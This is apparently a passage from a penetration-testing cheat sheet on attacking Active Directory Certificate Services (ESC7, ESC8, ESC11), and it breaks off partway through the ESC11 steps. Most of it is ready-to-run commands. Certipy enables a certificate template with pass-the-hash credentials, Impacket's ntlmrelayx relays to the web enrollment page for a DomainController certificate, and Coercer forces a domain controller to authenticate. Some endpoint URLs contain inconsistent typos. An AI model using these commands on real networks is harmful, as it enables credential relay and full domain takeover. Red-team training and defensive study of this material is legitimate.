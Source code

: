 EXTRA 2: If SubCA disabled -> Enable ManageCA:

```
certipy ca -u USER@internalDOMAIN -hashes 'HASHES:HASHES' -ca 'CA_NAME' -dc-ip DC_IP -target CA_NAME.DOMAIN -enable-template 'SubCA'
```


<br>

### <a name="26">2.6 &nbsp;&nbsp; ESC8

Condition: 

- Web enrollment interface enabled in the Certificate Authority (url is *http://CA_NAME.DOMAIN/certsrv/certsnsh.asp*)


Enumerate HTTP Enrollment Endpoints:

```
certutil -enrollmentServerURL -config CA_NAME
```

```
source certipy_venv/bin/activate
certipy find -u USER@DOMAIN -p 'PASSWORD' -dc-ip DC_IP -stdout
```

Set up relay:

```
source impacket_venv/bin/activate
/opt/Tools/impacket/examples/ntlmrelayx.py -t http://CA_NAME.DOMAIN/certsr/certfnsh.asp -smb2support --adcs --template 'DomainController'
```

Coerce authentication:

```
source coercer_venv/bin/activate
/opt/Tools/Coercer/Coercer.py coerce -l MACHINE_NAME.DOMAIN -t DC.DOMAIN -u USER -p 'PASSWORD' -d DOMAIN -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

<br>

### <a name="27">2.7 &nbsp;&nbsp; ESC11

Condition: 

- RPC interface enabled in the Certificate Authority 

Enumerate ICPR:

```
source certipy_esc11_venv/bin/activate
certipy find -u USER@DOMAIN -p 'PASSWORD' -stdout
```

Set up relay:
